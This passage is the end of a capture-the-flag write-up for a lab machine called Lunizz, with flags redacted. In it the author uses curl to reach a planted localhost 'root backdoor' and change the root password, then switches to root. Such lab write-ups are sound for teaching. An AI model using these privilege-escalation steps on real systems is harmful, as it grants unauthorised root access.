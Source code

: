 ```
reboot
passwd
```

Yes!! The POST request works!

**Hmm... What if I use the `passwd` command type?**
```
mason@lunizz:~$ curl 'http://localhost:8080' -X POST -d 'password={Redacted}&cmdtype=passwd'
<br>Password Changed To :{Redacted}<br>**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

Changed password for user root?

Let's **Switch User** to `root`:

```
mason@lunizz:~$ su root
Password: 
root@lunizz:/home/mason# whoami;hostname;id;ip a
root
lunizz
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:e4:9d:4e:89 brd ff:ff:ff:ff:ff:ff
    inet 10.10.60.160/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2294sec preferred_lft 2294sec
    inet6 fe80::25:e4ff:fe9d:4e89/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
root@lunizz:/home/mason# cat /root/r00t.txt 
thm{Redacted}
```

# Conclusion

What we've learned:

1. Directory Enumeration
2. MySQL Enumeration
3. Cracking Bcrypt Hash With Known Salt via Custom Python Script
4. Privilege Escalation via PHP Backdoor in Localhost